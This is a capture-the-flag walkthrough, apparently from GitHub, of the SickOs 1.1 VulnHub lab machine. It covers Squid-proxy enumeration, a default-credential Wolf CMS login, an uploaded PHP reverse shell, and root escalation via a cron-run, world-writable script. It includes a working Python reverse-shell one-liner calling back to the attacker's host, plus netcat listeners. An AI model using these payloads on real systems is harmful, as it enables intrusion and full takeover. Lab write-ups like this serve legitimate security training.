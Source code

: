 # SickOs: 1.1

## 1.Get VM IP

```text
root㉿kali:~# arp-scan -I eth1 -l
                       
Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1   00:50:56:c0:00:01       VMware, Inc.
192.168.127.229 00:0c:29:25:b7:8a       VMware, Inc.
192.168.127.254 00:50:56:fd:64:8a       VMware, Inc.
```
The IP address is `192.168.127.229`, let's enumerate it.

## 2.Enumeration

```text
root㉿kali:~# nmap -sV -sC -p- -oN fullscan 192.168.127.229

Nmap scan report for 192.168.127.229
Host is up (0.00041s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 09:3d:29:a0:da:48:14:c1:65:14:1e:6a:6c:37:04:09 (DSA)
|   2048 84:63:e9:a8:8e:99:33:48:db:f6:d5:81:ab:f2:08:ec (RSA)
|_  256 51:f6:eb:09:f6:b3:e6:91:ae:36:37:0c:c8:ee:34:27 (ECDSA)
3128/tcp open   http-proxy Squid http proxy 3.1.19
|_http-server-header: squid/3.1.19
|_http-title: ERROR: The requested URL could not be retrieved
8080/tcp closed http-proxy
MAC Address: 00:0C:29:25:B7:8A (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

port `3128` is for squid proxy and is open, so the system is using some kind of proxy here

and port 8080 is closed, maybe because of proxy.

so we need to proxy our traffic through squid to see if any website is available, go [here](https://book.hacktricks.xyz/network-services-pentesting/3128-pentesting-squid) for details.

```text
root㉿kali:~# curl --proxy http://192.168.127.229:3128 http://192.168.127.229

<h1>
BLEHHH!!!
</h1>
```

yes, there is a website here, let's check for `robots.txt` :

```text
root㉿kali:~# curl --proxy http://192.168.127.229:3128 http://192.168.127.229/robots.txt

User-agent: *
Disallow: /
Dissalow: /wolfcms
```

the path `wolfcmd` is dissalowed here, i just set my firefox proxy to point to `192.168.127.229:3128` and visited the `/wolfcms` :

![mainpage](https://github.com/Git-K3rnel/VulnHub/assets/127470407/d1740ada-f57f-4b86-bed9-010d97eac250)

since this is a cms i quickly checked searchsploit for any exploit :

```text
searchsploit wolf cms  
----------------------------------------------------------------------------------
 Exploit Title                                          |  Path
----------------------------------------------------------------------------------
Wolf CMS - Arbitrary File Upload / Execution            | php/webapps/38000.txt
Wolf CMS 0.6.0b - Multiple Vulnerabilities              | php/webapps/15614.html
Wolf CMS 0.7.5 - Multiple Vulnerabilities               | php/webapps/18545.txt
Wolf CMS 0.8.2 - Arbitrary File Upload                  | php/webapps/36818.php
Wolf CMS 0.8.2 - Arbitrary File Upload (Metasploit)     | php/remote/40004.rb
Wolf CMS 0.8.3.1 - Remote Code Execution (RCE)          | php/webapps/51421.txt
----------------------------------------------------------------------------------
Shellcodes: No Results
```
i looked at one of [them](https://www.exploit-db.com/exploits/38000), and it mentioned a vulnerable URL there (http://targetsite.com/wolfcms/?/admin/plugin/file_manager/browse/)

just manually visited the url and i was redirected to a login page (i did not know the exact path of admin page but i found it this way)

simply tried `admin:admin` and booom, i was in.

## 3.Gaining Shell

Looking at the result of the searchsploit for RCE [php/webapps/51421.txt](https://www.exploit-db.com/exploits/51421) i created a php reverse shell from pentestmonkey and put it

in `Files` menu and `Create new file` saved it and located it in `/public` :

![shell](https://github.com/Git-K3rnel/VulnHub/assets/127470407/90440763-4b65-4ac5-a76f-18bc7133ef30)

open the `shell.php` and prepare a listener on your kali machine, you will get the shell.

```text
root㉿kali:~# nc -nvlp 4444
listening on [any] 4444 ...

connect to [192.168.127.128] from (UNKNOWN) [192.168.127.229] 41750
Linux SickOs 3.11.0-15-generic #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014 i686 i686 i386 GNU/Linux
 22:03:28 up  2:01,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## 4.Privilege Escalation

I navigated to `/var/www` and found a python file which is world writable :

```text
www-data@SickOs:/$ cd /var/www
www-data@SickOs:/var/www$ ls -l
total 16
-rwxrwxrwx 1 root root  319 Sep 19 20:55 connect.py
-rw-r--r-- 1 root root   21 Dec  5  2015 index.php
-rw-r--r-- 1 root root   45 Dec  5  2015 robots.txt
drwxr-xr-x 5 root root 4096 Dec  5  2015 wolfcms
```

and the content of the file is interesting :

```python
#!/usr/bin/python

print "I Try to connect things very frequently\n"
print "You may want to try my services"
```

as it says here that does execute the program `frequently`, i guessed maybe there is a cronjob for it on the system

just check the cronjobs :

```text
www-data@SickOs:/var/www$ ls /etc/cron*
/etc/crontab

/etc/cron.d:
automate  php5

/etc/cron.daily:
apache2  apt       bsdmainutils  logrotate  mlocate  popularity-contest  update-notifier-common
apport   aptitude  dpkg          man-db     passwd   standard

/etc/cron.hourly:

/etc/cron.monthly:

/etc/cron.weekly:
apt-xapian-index  man-db
```

yes, there is a `automate` file in `cron.d` that executes the connect.py

```text
www-data@SickOs:/var/www$ cat /etc/cron.d/automate 

* * * * * root /usr/bin/python /var/www/connect.py
```

start another listener and just paste a python reverse shell in this file :

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.127.128",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

wait for a minute and you will get the root shell and find the flag in /root:

```text
root㉿kali:~#nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.127.128] from (UNKNOWN) [192.168.127.229] 41760
# id
id
uid=0(root) gid=0(root) groups=0(root)

# ls /root 
ls /root
a0216ea4d51874464078c618298b1367.txt

# cat /root/a0216ea4d51874464078c618298b1367.txt
cat /root/a0216ea4d51874464078c618298b1367.txt
If you are viewing this!!

ROOT!

You have Succesfully completed SickOS1.1.
Thanks for Trying
```

this is how you can hack this machine :)






